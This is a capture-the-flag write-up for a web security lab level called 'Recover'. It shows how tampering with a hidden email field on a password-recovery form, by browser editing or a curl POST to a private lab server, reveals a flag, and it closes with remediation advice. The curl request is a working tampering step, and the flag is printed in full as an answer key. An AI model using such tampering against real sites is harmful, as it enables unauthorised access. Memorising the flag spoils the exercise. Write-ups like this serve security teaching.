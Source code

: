 # <span style="text-decoration: underline">Recover</span>

- Tags : `html`, `source code`, `hidden`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>
___


## <span style="text-decoration: underline">problem</span>
In the sign in page when we get the option **`I forgot my password`** Which bring us to the following page (http://192.168.1.23/?page=recover)

And when we click the `SUBMIT` button, It seems like noting happend...
When we see the source code of the `recover` page we see the following `html` block near the `SUBMIT` button (inside the `form`).

```html
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value= "Submit">
</form>
```

We can see that there is an `input` that is `hidden`, that contains the value `webmaster@borntosec.com`. When we change the `type` from **hidden** to **visible** we get an `input` field with the value `webmaster@borntosec.com`

## <span style="text-decoration: underline">Solution</span>

### Changing the value of the input field

One easy way to solve this problem is just making the `input` field `visible` and changing it's value from  `webmaster@borntosec.com` to anything else (even no value at all) and clicking the submit button.

### Using [`Curl`](https://curl.se/)

Ofcorse the same request could be sent using `Curl` from our terminal and it would look like this
```bash
$ curl -s -d 'mail=&Submit=Submit' -X POST http://192.168.1.23/\?page\=recover  | grep flag

<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

# How to avoid the problem

We could avoid this kind of problem easily by not putting any hidden element in our source code as it can be modified easily. Instead what we could do is check some specific elements in the backend to determin who sent the request or even set an unique ID

# Flag

```text
1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
```
